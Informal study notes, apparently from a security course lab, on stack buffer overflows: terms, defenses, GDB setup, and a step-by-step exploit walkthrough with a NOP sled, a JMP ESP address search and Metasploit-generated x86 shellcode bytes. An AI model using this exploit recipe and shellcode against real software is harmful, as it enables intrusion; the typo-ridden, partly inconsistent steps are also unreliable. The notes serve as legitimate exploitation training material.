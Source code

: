 ## Buffer Overflow Common Terms
Heap:                       Memory that can be allocated and deallocated
Stack:                      A contiguous section of memory used for passing arguments
Registers:                  Storage elements as close as possible to the central processing unit (CPU)
Instruction Pointer (IP):   a.k.a Program Counter (PC), contains the address of next instruction to be executed
Stack Pointer (SP):         Contains the address of the next available space on the stack
Base Pointer (BP):          The base of the stack
Function:                   Code that is separate from the main program that is often used to replace code the repeats in order to make the program smaller and more efficient
Shellcode:                  The code that is executed once an exploit successfully takes advantage of a vulnerability

## Buffer Overflow Defenses
    Non executable (NX) stack
    Address Space Layout Randomization (ASLR)
    Data Execution Prevention (DEP)
    Stack Canaries
    Position Independent Executable (PIE)

## Technical Help
### Utilizing tools such as:
    IDA, GHIDRA
    GDB, MONA, IMMUNITY
    BASH, PYTHON

# GDB Uses
## Installation of Peda Plugin
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit

## Common Commands
disass <FUNCTION>         #   Disassemble portion of the program
info <...>                #   Supply info for specific stack areas
x/256c $<REGISTER>        #   Read characters from specific register
break <address>           #   Establish a break point

##################################################################
demo/activity
##################################################################
https://sec.cybbh.io/public/security/latest/lessons/lesson-7-exploit_sg.html

1)identify the executable, whic os it runs, and run strings/dynamic/ and ghidra on it
2)run gdb on it after ghidra and find out if its breakable, then break it with an indefinte amount of A's' its alsof faster to do it using the website https://wiremask.eu/tools/buffer-overflow-pattern-generator/.

3)make a .py script
the buffer will be:       " buffer= "A" *76 " <- 76 will change
the nop will alwasy be    " nop= "\x90" * 15 "
the print will be         " print(buffer+eip+nop+buf) "
4) fill out the eip field.
         type:
gdb - env ./func
show env
unset env clumns
unset env rows
then run and break
after breaking it you type ; info proc map
pull the first one under and to the left of heap
pull the last one on the same level and all  the way to the ight of stack.
then run the command "find /b 0xf7def000, 0xfffffe000, 0xff, 0xe4"
the last two are always there, the first tow are the ones you pulled respectively.
once the command is ran youll grab the first four and put them in little endian. 
like this: 
0xf7df1b51 -> 0xf7 df 1b 51 -> "\x51\x1b\xdf\xf7"
0xf7f6674b -> 0xf7 f6 67 4b -> "\x4b\x67\xf6\xf7"
0xf7f72753 -> 0xf7 f7 27 53 -> "\x53\x27\xf7\xf7"
0xf7f72c6b -> 0xf7 f7 2c 6b -> "\x6b\x2c\xf7\xf7"
pick one and pu it in the eip:
eip = "\x59\x3b\xde\xf7"

then replace the shell script.
go into msf
msf6 > use payload/linux/x86/exec
set CMD whoami
generate -b '\x00' -f python

and copy the shellcode 

buf =  b""
buf += b"\xbe\x21\xb8\xbe\x40\xd9\xf7\xd9\x74\x24\xf4\x58"
buf += b"\x31\xc9\xb1\x11\x83\xe8\xfc\x31\x70\x0e\x03\x51"
buf += b"\xb6\x5c\xb5\xfb\xcd\xf8\xaf\xa9\xb7\x90\xe2\x2e"
buf += b"\xb1\x86\x95\x9f\xb2\x20\x66\xb7\x1b\xd3\x0f\x29"
buf += b"\xed\xf0\x82\x5d\xf0\xf6\x22\x9d\x68\x96\x56\xbd"
buf += b"\x41\x76\xe4\xd8\xfe\xf4\x6f\x56\x2e\xd7\x19\xf3"
buf += b"\x42\x5e\x95\x9e\xc1\xd2\x3c\x14\x28\x63\xdb\xb6"
buf += b"\x34\xd4\x70\xbf\xd4\x17\xf6"

run and change shit until it wrks.

